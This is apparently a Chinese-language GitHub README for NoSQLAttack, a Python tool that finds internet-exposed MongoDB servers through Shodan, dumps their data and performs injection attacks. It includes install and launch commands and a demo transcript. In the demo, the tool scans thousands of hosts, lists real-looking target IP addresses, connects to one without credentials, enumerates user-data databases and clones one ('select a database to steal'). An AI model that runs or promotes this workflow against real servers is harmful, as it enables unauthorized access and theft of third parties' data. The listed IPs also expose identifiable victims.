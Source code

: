 #NoSQLAttack

#介绍
NoSQLAttack 是一个用python编写的开源的攻击工具，用来暴露网络中默认配置mongoDB的IP并且下载目标mongoDB的数据，同时还可以针对以mongoDB为后台存储的应用进行注入攻击，使用这个工具就可以发现有成千上万的mongoDB裸奔在互联网上，并且数据可以随意下载。

这个攻击工具是基于tcstool的[NoSQLMap](http://www.nosqlmap.net/index.html)和搜索引擎[shodan](https://www.shodan.io/)

一些攻击的数据是来自于以下论文给予的启发
* [Diglossia: Detecting Code Injection Attacks with Precision and Efficiency](http://www.cs.cornell.edu/~shmat/shmat_ccs13.pdf)
* [No SQL, No Injection?](https://www.research.ibm.com/haifa/Workshops/security2015/present/Aviv_NoSQL-NoInjection.pdf)
* [Several thousand MongoDBs without access control on the Internet](https://cispa.saarland/wp-content/uploads/2015/02/MongoDB_documentation.pdf).


NoSQL注入攻击测试系统[NoSQLInjectionAttackDemo](https://github.com/youngyangyang04/NoSQLInjectionAttackDemo)，这里面有两个系统用来测试注入攻击。
#背景介绍
在NoSQL注入攻击中有PHP数组注入，js注入和mongo shell拼接注入等多种方法可以攻击mongoDB，并且现在有成千上万的mongoDB暴露在互联网上，只要知道目标mongoDB的ip和端口号就可以把裸露的mongoDB中的数据都下载下来。
#运行环境
项目运行在linux系统上，NoSQLAttack的依赖包已经写在setup.py文件里，并且已经在ubantu和MAC OX上都测试了，只需要执行这个脚本就可以自动配置好安装环境
开发这个项目使用时使用的是Pycharm COMMUNITY 2016.1，python的版本为2.7.10，使用者需要在本地电脑安装[mongoDB](http://jingyan.baidu.com/article/fd8044faf4f3a95030137a79.html)。

#安装
在linux系统下可以直接将下载的项目解压，然后执行以下两个命令
```bash
cd NoSQLAttack
python setup.py install
```
#使用方法
安装完毕后，执行一下命令就可以启动该项目
```bash
NoSQLAttack
```
启动该项目后将会展现如下的界面，然后就可以开启黑客之旅了
```bash
================================================
        _   _       _____  _____ _                      
       | \ | |     /  ___||  _  | |                     
       |  \| | ___ \ `--. | | | | |                   
       | . ` |/ _ \ `--. \| | | | |                    
       | |\  | (_) /\__/ /\ \/' / |____          
       \_| \_/\___/\____/  \_/\_\_____/                  
                                        _          
    /\      _      _                   | |  _        
   /  \   _| |_  _| |    _____    ___  | | / /       
  / /\ \ |_   _||_   _| / __  \  / __| | |/ /        
 / /--\ \  | |_   | |_  | |_| | | |__  | |\ \       
/ / -- \ \ \___\  \___\ \______\ \___| | | \_\      
================================================    
NoSQLAttack-v0.2
sunxiuyang04@gmail.com


1-Scan attacked IP
2-Configurate parameters
3-MongoDB Access Attacks
4-Injection Attacks
x-Exit
```
#系统演示
```bash
===============================================
        _   _       _____  _____ _                      
       | \ | |     /  ___||  _  | |                     
       |  \| | ___ \ `--. | | | | |                   
       | . ` |/ _ \ `--. \| | | | |                    
       | |\  | (_) /\__/ /\ \/' / |____          
       \_| \_/\___/\____/  \_/\_\_____/                  
                                        _          
    /\      _      _                   | |  _        
   /  \   _| |_  _| |_   _____    ___  | | / /       
  / /\ \ |_   _||_   _| / __  \  / __| | |/ /        
 / /--\ \  | |    | |_  | |_| |  ||__  | |\ \       
/ / -- \ \ \___\  \___\ \______\ \___| | | \_\      
===============================================    
NoSQLAttack-v0.2
sunxiuyang04@gmail.com


1-Scan attacked IP
2-Configurate parameters
3-MongoDB Access Attacks
4-Injection Attacks
x-Exit
Select an option:1
Start Scanning.....
Results found:28793
1_Attacked IP : 149.202.88.135
2_Attacked IP : 49.212.186.80
3_Attacked IP : 85.9.62.231
4_Attacked IP : 121.78.239.11
5_Attacked IP : 54.226.207.112
6_Attacked IP : 119.254.66.44
7_Attacked IP : 121.46.0.83
8_Attacked IP : 162.243.21.180
9_Attacked IP : 210.23.29.75
Select IP to attack:2
Start Default Configuration Attack(y/n)?y
DB access attacks(mongoDB)
=========================
Checking to see if crendentials are need
49.212.186.80

27017
Successful access with no credentials!


1-Get Server Version and Platform
2-Enumerate Databases/Collections/Users
3-Clone a Database
4-Return to Main Menu
Select an attack: 2
List of databases:
MultiCopyService_UserData
SmartNFC_UserData
SmartShop_UserData
KioskPointMng2_UserData
admin
db
local

1-Get Server Version and Platform
2-Enumerate Databases/Collections/Users
3-Clone a Database
4-Return to Main Menu
Select an attack: 3


(1)MultiCopyService_UserData
(2)SmartNFC_UserData
(3)SmartShop_UserData
(4)KioskPointMng2_UserData
(5)admin
(6)db
(7)dbItem
(8)local
Select a database to steal:6
Does this Database require credentials.(y/n)?n
Database cloned. Copy another (y/n)?
```

